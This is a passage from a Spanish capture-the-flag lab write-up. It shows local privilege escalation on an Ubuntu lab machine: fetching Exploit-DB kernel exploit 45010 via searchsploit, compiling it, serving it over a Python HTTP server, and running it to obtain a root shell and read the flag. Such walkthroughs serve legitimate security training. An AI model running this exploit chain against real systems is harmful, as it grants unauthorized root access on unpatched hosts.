 ```bash
❯ searchsploit -m linux/local/45010.c
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
File Type: C source, ASCII text
```

Si les las intrucciones tenemos que compilarlo primero 

```bash
❯ gcc 45010.c -o exploit
❯ ls
 45010.c   exploit
```

Ahora vamos a pasarlo a la maquina

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.100.35 - - [14/Mar/2023 19:53:08] "GET /exploit HTTP/1.1" 200 -


```

En caso de tener problemas pasa el script en `c` a la maquina y en la maquina victima has el `gcc` y dale permisos `777` si es que no te funciona

```bash
loly@ubuntu:/tmp$ chmod +x exploit
loly@ubuntu:/tmp$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88003570bd00
[*] Leaking sock struct from ffff8800728ae900
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800729ed680
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff8800729ed680
[*] credentials patched, launching shell...
# whoami
root
# bash
root@ubuntu:/tmp# cd /home
root@ubuntu:/home# ls
loly
root@ubuntu:/home# cd /root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt 
  ____               ____ ____  ____  
 / ___| _   _ _ __  / ___/ ___||  _ \ 
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ < 
 |____/ \__,_|_| |_|\____|____/|_| \_\
                                      
Congratulations. I'm BigCityBoy
root@ubuntu:/root# 
```
